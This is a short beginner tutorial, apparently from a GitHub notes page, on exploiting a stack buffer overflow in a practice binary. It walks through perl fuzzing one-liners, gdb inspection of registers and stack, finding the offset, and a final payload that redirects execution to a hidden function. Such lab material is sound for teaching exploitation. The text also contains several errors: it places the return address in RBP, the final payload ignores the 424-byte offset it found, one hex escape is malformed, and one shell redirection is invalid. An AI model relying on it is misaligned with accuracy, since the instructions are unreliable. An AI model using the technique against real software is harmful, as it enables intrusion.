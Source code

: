 # Buffer Overflow

## 1. Fuzz
we have to find out if a buffer overflow even exists. 
We try different inputs to do so. Specifically, we are interested in *long* inputs, that potentially *overflow* a buffer somewhere in our target program.

How do we get long input in to our program?
Scripting languages like PERL (comes with all Linux distros) or Python (yes, you should know Python) can help you to a) craft long inputs and b) compose hex values.
'perl -e 'print "A"x200''
'python -c 'print("asd"*200)'

Furhter, |, < and the expression evaluator $() can be used to combine commands.
We want to provide input via command line arguments, or STDIN.
Command Line:
'./target $(perl -e 'print "A"x200')'  
' perl -e 'print "A"x200' | xargs ./target '

STDIN:
'./target < perl -e 'print "A"x200''
or retain your payload (the A's) in a file:
'perl -e 'print "A"x200' > payload.txt'
'./target < payload.txt'

Lit, isn't it?

## 2. Observe
Debug your target, meaning analyze it *dynamically*
' gdb -q ./target '
Run it on the payload
' run < payload.txt '
Inspect registers and stack
' info registers '
' x/120x $rsp '
Wow, would be cooler if we had some breakpoints, so we can step through, right?
'disas main'
Shows you, where the target reads from STDIN, and you can set a breakpoint like
'b * vulnfunction+89'
or 
'b * 0x89089010'
Now inspect like
' info registers '
' x/120x $rsp '
' nexti '
' info registers '
' x/120x $rsp '
You should be able to see how the A's have not been on the stack *before* the read, but did then get loaded on to it by the read instruction. Wow!

# 4. Focus
What's our goal again?
1. Overwrite the return address
2. RBP is where the return address remains. We can inspect the RBP by using 'info registers'
3. Did we overwrite it yet? Hint: if the program seg faults you should be able to see the A's in the RBP at some point. Otherwise, you need more A's; try 500!
4. Remember: we want to overwrite the return address with our address of choice. We have to be damn precise!
5. Let's try using a couple of B's and C's to get a better overview of what's on the stack already.

'perl -e 'print "A"x500."BBBB"."CCCC"."DDDD"' > payload2.txt'

# 5. Make it happen
Playing around with the payload, we can see that 500 is to much, because RBP only consists of A's. 400 is to little, the RBP doesnt get overwridden. 
We hit the sweet spot at 424 A's B's and C's. Nice!

Now we can find our target address by using the debugger again:
' gdb -q ./target '
' disas hidden '
Take the first instruction after the prolog (the prolog is when RSP gets set to RBP at the beginning of each function).

Craft:
'perl -e 'print "A"x500."\78\x56\x34\x12\x00\x00\x00\x00"' > payload3.txt'
and boom:
' ./target < payload3.txt '













3. 




